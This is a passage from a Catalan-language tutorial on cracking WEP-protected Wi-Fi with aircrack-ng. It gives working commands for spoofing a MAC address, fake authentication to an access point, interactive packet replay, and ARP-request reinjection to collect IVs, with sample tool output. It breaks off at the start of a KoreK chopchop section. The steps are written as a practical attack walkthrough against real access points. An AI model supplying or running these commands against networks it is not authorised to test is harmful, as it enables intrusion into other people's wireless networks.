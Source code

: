 <p>Aquest atac només es útil quan no hi ha cap client associat, sempre és millor executar-lo amb l'adreça MAC d'un client real.</p>
<p>El primer pas és fixar-nos la nostra MAC a la que utilitzarem per fer l'autenticació falsa (en l'exemple ca:fe:ca:fe:ca:fe), d'aquesta manera els següents atacs tenen més probabilitats de funcionar correctament.</p>
<pre>
# ifconfig ath0 down
# ifconfig ath0 hw ether ca:fe:ca:fe:ca:fe
# ifconfig ath0 up
</pre>
<pre>
# aireplay-ng -e "pofHQWep" -a 00:C0:94:1F:3D:49 -h ca:fe:ca:fe:ca:fe --fakeauth 30 ath1
03:02:56  Sending Authentication Request
03:02:56  Authentication successful
03:02:56  Sending Association Request
03:02:56  Association successful : -)
[...]
</pre>
<p>Si l'atac falla (aireplay-ng continua enviant peticions d'autenticació), es possible que el AP tingui configurat filtrat per MAC.</p>
<h4>Interactive packet replay attack</h4>
<p>Aquest atac permet triar un paquet determinat per injectar-lo i esperar una resposta que generi tràfic xifrat vàlid, moltes vegades és més efectiu que l'atac de reinjecció d'arp-request.</p>
<p>Es pot forçar el re-broadcast de tot el tràfic que veiem, (només funciona si l'AP reencripta els paquets WEP):</p>
<pre>
# aireplay-ng --interactive -b 00:C0:94:1F:3D:49 -n 100 -p 0841 \
-h ca:fe:ca:fe:ca:fe -c FF:FF:FF:FF:FF:FF ath1
</pre>
<h4>ARP-request reinjection attack</h4>
<p>El clàssic atac d'arp-request / reply és el mes efectiu per generar nous IVs i funciona en la gran majoria de casos. Per dur-lo a terme necessitem la MAC d'un client associat, o una MAC falsa que hagem utilitzat en l'atac de <em>Fake Authentication</em>. Haurem d'esperar fins que aireplay-ng capturi un paquet ARP request, i a partir de llavors ja podem gaudir de veure com augmenta el comptador de IVs al aircrack-ng.</p>
<p>Es pot reutilitzar un ARP request d'una captura prèvia utilitzant la opció <code>-r</code>.</p>
<pre>
# aireplay-ng --arpreplay -b 00:C0:94:1F:3D:49 -h ca:fe:ca:fe:ca:fe ath1
Saving ARP requests in replay_arp-0427-031636.cap
You should also start airodump-ng to capture replies.
Read 1234 packets (got 0 ARP requests), sent 0 packets...
</pre>
<h4>KoreK chopchop attack</h4>
<p>Aquest és un dels atacs mes macos del aircrack-ng, si funciona correctament pot desencriptar un paquet xifrat amb WEP sense conèixer la clau, fins i tot és possible que funcioni contra WEP dinàmic!. Aquest atac no recupera la clau WEP, però revel·la el plaintex d'un paquet xifrat (recordeu que PLAINTEXT (xor) CIPHERTEXT == keystream). La llàstima és que la majoria de punts d'accés no son vulnerables, però sempre s'ha d'intentar! Els passos per executar l'atac a continuació:</p>
<p>Primer desencriptem un paquet:</p>
<pre>